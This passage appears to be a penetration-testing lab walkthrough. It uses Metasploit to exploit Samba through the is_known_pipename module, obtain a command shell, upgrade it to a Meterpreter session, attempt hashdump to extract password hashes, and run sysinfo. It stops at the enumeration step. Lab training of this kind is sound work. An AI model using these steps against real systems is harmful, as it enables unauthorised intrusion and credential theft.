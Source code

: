 Search for the **Samba exploit module**:

```bash
search samba
```

Use the **Samba is_known_pipename** exploit module:

```bash
use exploit/linux/samba/is_known_pipename
```

Run the exploit to gain a **cmd shell session**:

```bash
exploit
```

### Upgrading to Meterpreter Session

Put the **cmd shell session** in the background:

```bash
background
```

List active sessions:

```bash
sessions
```

Upgrade the **cmd shell session** to a **Meterpreter session** (assuming session 1):

```bash
sessions -u 1
```

List sessions again to confirm the Meterpreter session (now session 2):

```bash
sessions
```

### Dumping Hashes with Hashdump

Attempt to dump password hashes using the **hashdump** command:

```bash
hashdump
```

If an error occurs, you need to load the **hashdump** module to gather password hashes from the Linux system.

### Basic Enumeration Before Hashdump

Before proceeding with **hashdump**, gather basic system information:

- Display system information:

    ```bash
    sysinfo
    ```
